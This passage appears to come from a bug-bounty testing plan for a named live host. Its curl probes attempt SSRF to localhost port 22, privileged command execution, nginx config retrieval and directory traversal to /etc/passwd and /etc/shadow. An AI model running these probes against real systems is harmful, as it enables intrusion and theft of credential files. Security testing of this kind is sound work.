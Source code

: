 4. **Test Webhook Endpoints for SSRF**
   ```bash
   # Test webhook endpoints
   curl -s "https://workflow.aixblock.io/api/v1/webhooks" -v
   
   # Test for SSRF via webhook URLs
   curl -s "https://workflow.aixblock.io/api/v1/webhooks" \
     -H "Content-Type: application/json" \
     -d '{"url": "http://127.0.0.1:22", "method": "GET"}'
   ```

5. **Demonstrate Clear Attack Chain**
   - Link disclosed data to specific vulnerabilities
   - Show how configuration data enables other attacks
   - Demonstrate privilege escalation path
   - Prove business impact

#### **Issue #318: Server Information Disclosure**
**Current Status**: Server versions often not exploitable
**Enhancement Strategy**:

1. **Research nginx 1.18.0 CVEs and Exploits**
   ```bash
   # Research specific CVEs
   curl -s "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=nginx+1.18.0"
   
   # Check for privilege escalation CVEs
   curl -s "https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=nginx+privilege+escalation"
   ```

2. **Test for Privilege Escalation**
   ```bash
   # Test for local privilege escalation
   curl -s "https://workflow.aixblock.io/api/v1/execute" \
     -H "Content-Type: application/json" \
     -d '{"command": "whoami", "elevate": true}'
   ```

3. **Test for Configuration File Access**
   ```bash
   # Test for nginx configuration access
   curl -s "https://workflow.aixblock.io/nginx.conf"
   curl -s "https://workflow.aixblock.io/etc/nginx/nginx.conf"
   curl -s "https://workflow.aixblock.io/conf/nginx.conf"
   ```

4. **Test for Directory Traversal**
   ```bash
   # Test for directory traversal
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/passwd"
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/shadow"
   curl -s "https://workflow.aixblock.io/api/v1/files/../../../etc/hosts"
   ```

5. **Link to Specific Exploitable Vulnerabilities**
   - Find specific CVEs for nginx 1.18.0
   - Demonstrate privilege escalation
   - Show system compromise path
   - Prove business impact
